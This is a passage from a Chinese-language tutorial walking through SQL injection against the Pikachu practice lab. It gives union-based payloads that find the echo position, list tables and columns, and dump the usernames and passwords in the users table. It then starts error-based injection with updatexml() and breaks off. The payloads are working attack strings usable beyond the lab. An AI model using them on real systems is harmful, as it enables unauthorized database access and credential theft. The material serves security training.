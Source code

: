 这里我们就可以使用 union 注入，在获取我们想要的信息之前，需要先判断一下显示信息的回显位置在什么地方，通过该语句可以找到回显位置。

```sql
kobe' union select 1, 2 #
```

#### 查询数据库名

使用 mysql 中的 database() 函数

```sql
kobe' union select 1, database() #
```

可以看到在页面中显示出了数据库名称： pikachu

#### 查询数据表名

在 mysql 数据库中 information_schema 数据库 tables 的数据表中保存着所有 mysql 的配置信息，包括所有的数据库，数据表以及它们的字段名，所以直接使用查询语句查询该数据库的所有数据表。

```sql
kobe' union select group_concat(table_name), 2 from information_schema.tables where table_schema = database()#
```

#### 查询 users 表中的所有字段

同样使用上述的数据库，这次使用 colums 数据表即可查询到所有数据表中的所有字段。

```sql
kobe' union select group_concat(column_name), 2 from information_schema.columns 
where table_schema = database() and table_name = 'users'#
```

#### 查询 users 表中的所有信息

假设 username 和 password 就是我们想要的字段，直接查询里面的信息即可

```sql
kobe' union select username, password from users #
```

### 报错注入

报错注入是通过 mysql ，函数执行错误时的会显示报错信息而执行的一种注入。

依然是字符型注入，这里使用 mysql 的 updatexml() 函数，该函数本身是通过 xpath 进行xml 替换，由于xpath 中出现特殊字符就会报错，所以使用该函数作为报错注入的工具。

#### 查询数据库名

concat 是连接函数，用来连接字符串，而在 ASCII 码中 0x7e 这个十六进制代表符号 ~，而波浪线在 xpath 语法中是不存在的，这样就可以通过报错信息得到我们想要的内容。

```sql
kobe' and updatexml(1, concat(0x7e, database()), 1) #
```

#### 查询数据表名

```sql
kobe' and updatexml(1, concat(0x7e, (select group_concat(table_name)
from information_schema.tables where table_schema = database())), 1) #
```
